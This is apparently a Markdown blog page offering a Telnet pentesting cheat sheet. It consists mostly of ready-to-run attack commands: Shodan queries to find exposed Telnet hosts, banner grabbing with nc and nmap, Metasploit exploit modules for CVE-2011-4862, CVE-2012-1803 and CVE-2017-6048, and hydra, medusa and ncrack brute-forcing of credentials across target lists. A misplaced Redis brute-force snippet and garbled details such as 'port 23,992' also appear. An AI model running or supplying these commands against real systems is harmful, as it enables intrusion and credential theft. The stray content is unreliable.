 ```yaml
---
title: Telnet Pentesting Best Practices
categories: [pentesting protocols,telnet]
tags: [pentesting,telnet,best practicies]
comments: true
---
```

# Telnet

> Telnet usually uses port 23,992
{: .prompt-tip }

# What is Telnet?

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.

```bash
PORT     STATE SERVICE               VERSION
23/tcp   open  telnet  
```

Redis Password Authentication Bruteforcing Methods

```bash
#Metasploit Framework
msf> use auxiliary/scanner/redis/redis_login
```

# Telnet Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:23 |
| # You can use this command only on your shodan-cli : `shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000` |

## Banner Grabbing

```bash
telnet 10.10.x.x 23
nc 10.10.x.x 23
Nmap: banner
nc -vn 10.10.x.x 23
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 10.10.x.x
msf > use auxiliary/scanner/telnet/telnet_version
msf > use auxiliary/scanner/telnet/lantronix_telnet_version
```

![Telnet version grabbing with metasploit module.](/assets/img/pitcures/telnet/telnet.png)
_Telnet version grabbing with metasploit module._

## Connection Tools

Linux:

```bash
telnet -l username 10.10.x.x 23
```

Windows:

- Putty

## Telnet Vulnerabilities

### Specific Vulnerabilities and Exploits

```bash
#BOF: FreeBSD 7.3 – 9.0; MIT Kerberos v5 Applications (krb5-appl) <= 1.0.2; Heimdal <= 1.5.1; GNU inetutils [CVE-2011-4862]
msf > use auxiliary/scanner/telnet/telnet_encrypt_overflow
msf > use exploit/linux/telnet/telnet_encrypt_keyid
msf > use exploit/freebsd/telnet/telnet_encrypt_keyid

#SenNet Optimal DataLogger <= V5.37c-1.43c; SenNet Solar Datalogger <= V5.03-1.56a; SenNet Multitask Meter <= V5.21a-1.18b [CVE-2017-6048] [TCP/5000]
msf > use auxiliary/scanner/telnet/satel_cmd_exec

#RuggedCom Rugged Operating System (ROS) Telnet backdoor [CVE-2012-1803]
Exploit-DB: 18779.txt
msf > use auxiliary/scanner/telnet/telnet_ruggedcom

#Lantronix Device Server V5.8.0.1 [UDP\30718]
msf > use auxiliary/scanner/telnet/lantronix_telnet_password
```

### There are also product-based vulnerabilities and scripts for vulnerabilities.

IBM CICS:

```bash
#Nmap Scripts:
nmap --script=cics-enum -p 23 10.10.x.x
nmap --script=cics-user-enum -p 23 10.10.x.x
```

IBM TN32701:

```bash
#Nmap Scripts:
nmap --script tn3270-info,tn3270_screen 10.10.x.x
```

## Telnet Credentials

### Brute Forcing

```bash
hydra -t 2 -L users.list -P passwords.list -M TargetIPs.list -s 23 telnet
medusa -t 2 -T 2 -U users.list -P passwords.list -H TargetIPs.list -n 23 -M telnet
ncrack -g CL=2 -U users.list -P passwords.list -iL TargetIPs.list -p telnet:23 -oA Result.txt
msf > use auxiliary/scanner/telnet/telnet_login
```